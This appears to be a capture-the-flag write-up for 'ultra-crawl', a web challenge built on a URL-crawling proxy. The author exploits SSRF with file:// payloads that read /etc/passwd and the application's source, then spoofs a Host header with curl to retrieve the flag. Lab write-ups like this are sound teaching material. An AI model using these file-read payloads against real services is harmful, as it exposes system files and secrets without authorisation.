



# Challenge: ultra-crawl

## Description
Here is your favorite proxy for crawling minimal websites.

## Initial Reconnaissance

First step we open the website and see simple interface where you input a link and it will crawl it.



From the beginning I can say that this will be an SSRF challenge so I will go right into Burp Suite.

## Setting Up

We are going to set up the proxy, catch the POST request and then send to Repeater so we can play with it.

## Exploitation

After trying many SSRF techniques like trying to access localhost or other things I got something positive:



Sending `file:////etc/passwd` as the payload exposes the passwd file, where we can see the ctf user.

### File System Enumeration

We are going to leak the ctf directory for files.

We leaked the app.py code:



by using the payload: `file:////home/ctf//app.py`

### Source Code Analysis

The code is:

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 774
Server: Werkzeug/2.0.1 Python/3.6.9
Date: Fri, 10 Oct 2025 14:40:52 GMT

import base64
from urllib.request import urlopen
from flask import Flask, render_template, request

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def index():
    print(request.headers['Host'])
    if request.headers['Host'] == "company.tld":
        flag = open('sir-a-random-folder-for-the-flag/flag.txt').read()
        return flag
    
    if request.method == 'POST':
        url = request.form.get('url')
        output = urlopen(url).read().decode('utf-8')
        if base64.b64decode("Y3Rmew==").decode('utf-8') in output:
            return "nope! try harder!"
        return output
    else:
        return render_template("index.html")

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=False, threaded=True, use_evalex=False)
```

### Finding the Vulnerability

The important line of the code is this:

```python
if request.headers['Host'] == "company.tld":
    flag = open('sir-a-random-folder-for-the-flag/flag.txt').read()
    return flag
```

So if we send a request with that specific header as host it will give us the flag.

## Solution

The crafted payload that gives us the flag is:

```bash
curl -H "Host: company.tld" <IP:PORT>
```